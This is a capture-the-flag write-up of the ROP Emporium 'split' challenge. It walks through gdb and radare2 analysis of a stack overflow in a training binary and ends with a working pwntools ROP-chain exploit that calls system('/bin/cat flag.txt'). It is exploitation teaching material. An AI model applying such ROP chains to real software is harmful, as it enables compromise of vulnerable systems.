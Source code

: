 ```yaml
---
title: "Return-Oriented Programming - Split"
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary:  
images: []
layout: PostLayout
canonicalUrl:
---
```


## Introduction
Challenge Description

>The elements that allowed you to complete ret2win are still present, they've just been split apart.
>Find them and recombine them using a short ROP chain

The goal of this challenge is to understand how function arguments are passed in 64bit machine when doing return oriented programming. The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com). 

First we check the binary protections enabled on the downloaded. Only **NX** (Not executable) is enabled on the device according to `checksec` binary utility as shown in the image below.

```bash
vx@archie:split$ checksec --file=split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

From analysis of binary we use gdb debugger in order to analyze the functions present in the binary in order to understand the logic. We disassemble **pwnme** function as in the image below.The function looks familiar as for the ret2win function.
```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400810
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x40083c
   0x0000000000400715 <+45>:	mov    eax,0x0
   0x000000000040071a <+50>:	call   0x400570 <printf@plt>
   0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:	mov    edx,0x60
   0x0000000000400728 <+64>:	mov    rsi,rax
   0x000000000040072b <+67>:	mov    edi,0x0
   0x0000000000400730 <+72>:	call   0x400590 <read@plt>
   0x0000000000400735 <+77>:	mov    edi,0x40083f
   0x000000000040073a <+82>:	call   0x400550 <puts@plt>
   0x000000000040073f <+87>:	nop
   0x0000000000400740 <+88>:	leave  
   0x0000000000400741 <+89>:	ret    
End of assembler dump.
(gdb) 
```
From the above code, we are filling  a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values that is present in the memory area specified. The memory region we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the boundary of base pointer address in the stack.

![](/static/images/ropemporium/stack.png)

Next function is **read** function, which reads for user input from the standard input file descriptor and stores in the specified buffer. From disassembled code, we are reading **0x60** bytes from the user input and storing it in our buffer. This means we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);
```
For this challenge we don`t have a ret2win function which we are to return to. From the disassembly of the binary we have an interesting function called **usefulFunction**. The usefulFunction, does listing of the files in the directory when called by the function.

```nasm
(gdb) disas usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret    
End of assembler dump.
(gdb) x/s 0x40084a
0x40084a:	"/bin/ls"
(gdb) 
```
Goal is to pass a different string to the system function instead of  **"/bin/ls"**

From the authors hint, we can look for useful hints in the binary using either radare2 or rizin. Both tools perform the same function, it is a matter of choice.

>Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the **"/bin/cat flag.txt"** string as the only argument. You'll also have to start dealing with the differences between the various architectures' calling conventions. 

Opening the binary in radare2, we can use **iz** command to look for strings. The goal is to read the flag from the system.

```nasm
[0x004005b0]> iz
nth paddr      vaddr      len size section type  string                                      
---------------------------------------------------------------------------------------------
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

```

We have an important string **"/bin/cat flag.txt"** which will enable us to complete our goal. Now we need pass the string to system function as follows **system('/bin/cat flag.txt')**.

For building ropchain, we need to understand the calling conventions of **AMD64 ABI**.The calling convention passes the arguments to the registers in the following order **RDI, RSI, RDX, RCX, R8 and R9**.

Because the system function receives one argument, we need to look for one gadgets that we control the **rdi** address.

**What are gadgets?**
Gadgets are sequence of instructions the end with ret instruction. Because we want to load a value into rdi register, we look for a pop **pop rdi; ret** instruction in order to pass an argument to the system function.

For searching gadget in radare2/rizin, use **/R** command as shown in the image below.

![](/static/images/ropemporium/split_poprdi.png)
Now we need to chain ropchain exploit as shown in the image below.

![ropchain](/static/images/ropemporium/popgadget.png)

The goal is to overwrite the return address with the address of **"pop rdi, ret "** and then call system function. we need to fill the buffer memory with 32bytes, 8 bytes more to overwrite the rbp address and  8 bytes teo overwrite the return address with pop rdi address.

## Exploit
Full exploit of split challenge is;

```python3
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process("./split")

system_addr = pwn.p64(0x400560)   #address of system 
pop_rdi_ret = pwn.p64(0x004007c3)  # pop rdi; ret gadget 
bin_cat_addr = pwn.p64(0x00601060)  #bin cat flag.txt address 

payload = b"A" * 32  #fill the buffer 
payload += b"B" *8   # overwrite  rbp
payload += pop_rdi_ret # pop rdi gadget 
payload += bin_cat_addr # argument passed to the system function
payload += system_addr   #call system 

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the above code we get a flag.

![](/static/images/ropemporium/split_flag.png)

>**To avoid the segmentation fault of the above, we can overwrite the rbp address with exit function address in order to exit without segfault.**
